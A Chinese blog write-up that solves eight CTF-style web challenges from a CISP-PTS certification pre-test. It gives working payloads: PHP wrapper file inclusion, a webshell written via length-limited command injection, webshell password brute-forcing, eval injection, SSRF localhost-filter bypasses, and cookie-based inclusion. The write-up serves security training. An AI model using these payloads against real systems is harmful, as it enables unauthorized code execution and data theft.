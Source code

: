 # PTS 谷安预报名测试


&lt;!--more--&gt;

最近想考PTS，想先了解一下相关内容，朋友就给我发了一个谷安的问卷调查，上面有些CTF题，做着玩玩。



题目来源：

谷安学院CISP-PTS渗透测试专家认证-预报名测试
https://ks.wjx.top/jq/94623813.aspx

&gt; 问卷为谷安学院渗透测试专家CISP-PTS认证预报名测试题。 
&gt;
&gt; 3道实操题目答对2道即可报名PTS。



## 1、POST&amp;GET

题目链接：http://118.195.198.108:9997/

&gt; :bulb: hint：
&gt;
&gt; 请以get方式提交a=1 post方式提交b=2给服务器

Poc:

```http
POST /?a=1 HTTP/1.1
Host: 118.195.198.108:9997
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

b=2
```

返回key，`key1:T0kS7r3c`



## 2、include

题目链接：http://118.195.198.108:9998/

&gt; :bulb:Hint:
&gt;
&gt; ```php
&gt; &lt;?php
&gt; show_source(__FILE__);
&gt; echo $_GET[&#39;hello&#39;];
&gt; $page=$_GET[&#39;page&#39;];
&gt; //while (strstr($page, &#34;php://&#34;)) {
&gt; //    $page=str_replace(&#34;php://&#34;, &#34;&#34;, $page);
&gt; //}
&gt; include($page);
&gt; ?&gt;
&gt; ```

利用点就是`include($page);`，注释中提示了`php://`伪协议

Poc:

```
?hello=&amp;page=php://filter/read=convert.base64-encode/resource=flag.php 
?hello=&amp;page=data://text/plain,&lt;?php system(&#39;ls&#39;);?&gt;
```

考点：文件包含漏洞，伪协议

```http
POST /?hello=&amp;page=php://input HTTP/1.1
Host: 118.195.198.108:9998
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

&lt;?php system(&#39;cat flag.php&#39;);?&gt;
```





## 3、Hacked by Alphabug

题目链接：http://118.195.198.108:9999/

&gt; :bulb: Hint:
&gt;
&gt; ```php
&gt; 0 &lt;?php
&gt;     #Hacked by Alphabug 
&gt; header(&#34;Content-type:text/html;charset=utf-8&#34;); 
&gt;     /*
&gt;     Hint:
&gt;     get the shell find the key；）\n&#34;;
&gt;     */
&gt;     $sandbox = &#39;/var/www/html/sandbox/&#39; . md5(&#34;M0rk&#34; . $_SERVER[&#39;REMOTE_ADDR&#39;]);
&gt;     mkdir($sandbox,0777,true);
&gt;     chdir($sandbox);
&gt;     echo strlen($_GET[&#39;cmd&#39;]);
&gt;     if (isset($_GET[&#39;cmd&#39;]) &amp;&amp; strlen($_GET[&#39;cmd&#39;]) &lt;= 30) {
&gt;         @exec($_GET[&#39;cmd&#39;]);
&gt;     } else if (isset($_GET[&#39;reset&#39;])) {
&gt;         @exec(&#39;/bin/rm -rf &#39; . $sandbox);
&gt;     }
&gt;     highlight_file(__FILE__);
&gt; echo &#34;&lt;br /&gt; IP : {$_SERVER[&#39;REMOTE_ADDR&#39;]}&#34;;
&gt; 
&gt; ?&gt;
&gt; 
&gt; IP : xxxxxx
&gt; ```



`md5(&#34;M0rk&#34; . $_SERVER[&#39;REMOTE_ADDR&#39;])`算出自己的sandbox地址。

通过`cmd`进行写shell，为了及时发现自己的错误，可以先写txt，再通过cp命令转成php

```php
?cmd=echo&#43;&#39;&lt;?php&#39;&gt;&gt;i.txt
?cmd=echo&#43;&#39;$a=$_POST[&#34;a&#34;];&#39;&gt;&gt;i.txt
?cmd=echo&#43;&#39;eval($a);&#39;&gt;&gt;i.txt
?cmd=cp&#43;i.txt&#43;i.php
```

连接shell，获取flag



## 4、密码是什么呢？

&gt; :bulb:Hint
&gt;
&gt; 密码是什么呢？
&gt; &lt;?php @eval($_POST[&#39;?&#39;]);?&gt;

暴破一句话木马的连接密码

PHP一句话可以执行PHP命令，为了方便暴破，我们可以使用PHP echo输出内容，改变响应包的大小来做区分。

```http
POST / HTTP/1.1
Host: 118.195.198.108:20001
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

cmd=echo 123456789;
```

对cmd参数加标记，进行暴破，观察响应包大小变化，最后变化的就是密码，密码为pass

进行命令控制，读取flag

```
pass=echo `ls`;
pass=echo `cat 3daddreEt30Nx.txt`;
```



## 5、var_dump

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; Warning: var_dump() expects at least 1 parameter, 0 given in /var/www/html/index.php(4) : eval()&#39;d code on line 1
&gt; &lt;?php 
&gt;     #error_reporting(0);
&gt;     $a = @$_REQUEST[&#39;hello&#39;]; 
&gt;     eval( &#34;var_dump($a);&#34;); 
&gt;     show_source (__FILE__); 
&gt; ?&gt; 
&gt; ```

命令注入，闭合`var_dump`

POC：

```
/?hello=);echo`ls`;//
/?hello=);echo`cat x8kwjkzp1ik.txt`;//
```



## 6、curl_exec

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; &lt;?php
&gt; error_reporting(0);
&gt; highlight_file(__FILE__);
&gt; $url=$_POST[&#39;url&#39;];
&gt; $x=parse_url($url);
&gt; if($x[&#39;scheme&#39;]===&#39;http&#39;||$x[&#39;scheme&#39;]===&#39;https&#39;){
&gt;     if(!preg_match(&#39;/localhost|127.0.0.1/&#39;,$x[&#39;host&#39;])){
&gt;         $ch=curl_init($url);
&gt;         curl_setopt($ch, CURLOPT_HEADER, 0);
&gt;         curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
&gt;         $result=curl_exec($ch);
&gt;         curl_close($ch);
&gt;         echo ($result);
&gt;     }else{
&gt;      die(&#39;hacker&#39;);
&gt;     }
&gt; }elseif ($x[&#39;scheme&#39;]== NULL){
&gt;     die(&#39;&#39;);
&gt; }else {
&gt;     die(&#39;oh no hacker&#39;);
&gt; }
&gt; 
&gt; ?&gt;
&gt; //flag.php
&gt; ```

`url=http://xxxxxx/flag.php`

考点，对localhost、127.0.0.1的绕过

```
127.0.0.1
十进制整数：url=http://2130706433/flag.php
十六进制：url=http://0x7F.0.0.1/flag.php
八进制：url=http://0177.0.0.1/flag.php
十六进制整数：url=http://0x7F000001/flag.php
缺省模式：127.0.0.1写成127.1
CIDR：url=http://127.127.127.127/flag.php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```

经过尝试，只有如下成功绕过，其他会造成400报错

```
url=http://127.127.127.127/flag.php
url=http://0x7F000001/flag.php
url=http://0.0.0.0/flag.php
```



## 7、你真的会使用webshell吗？

&gt; :bulb:Hint
&gt;
&gt; 你真的会使用webshell吗？
&gt; &lt;?php @eval($_POST[&#39;cmd&#39;]);?&gt;

不会



## 8、Hello English

&gt; :bulb:Hint
&gt;
&gt; ```php
&gt; &lt;?php
&gt; if( !ini_get(&#39;display_errors&#39;) ) {
&gt;   ini_set(&#39;display_errors&#39;, &#39;On&#39;);
&gt;   }
&gt; error_reporting(E_ALL);
&gt; $lan = $_COOKIE[&#39;language&#39;];
&gt; if(!$lan)
&gt; {
&gt; 	@setcookie(&#34;language&#34;,&#34;english&#34;);
&gt; 	@include(&#34;english.php&#34;);
&gt; }
&gt; else
&gt; {
&gt; 	@include($lan.&#34;.php&#34;);
&gt; }
&gt; $x=file_get_contents(&#39;index.php&#39;);
&gt; echo $x;
&gt; ?&gt;
&gt; ```



Poc:

```
Cookie: language=data:text/plain,&lt;?php phpinfo()%3b?&gt;
Cookie: language=php://filter/read=convert.base64-encode/resource=./flag
```



---

> 作者: Xavier  
> URL: http://localhost:1313/posts/pts-%E8%B0%B7%E5%AE%89%E9%A2%84%E6%8A%A5%E5%90%8D%E6%B5%8B%E8%AF%95/  

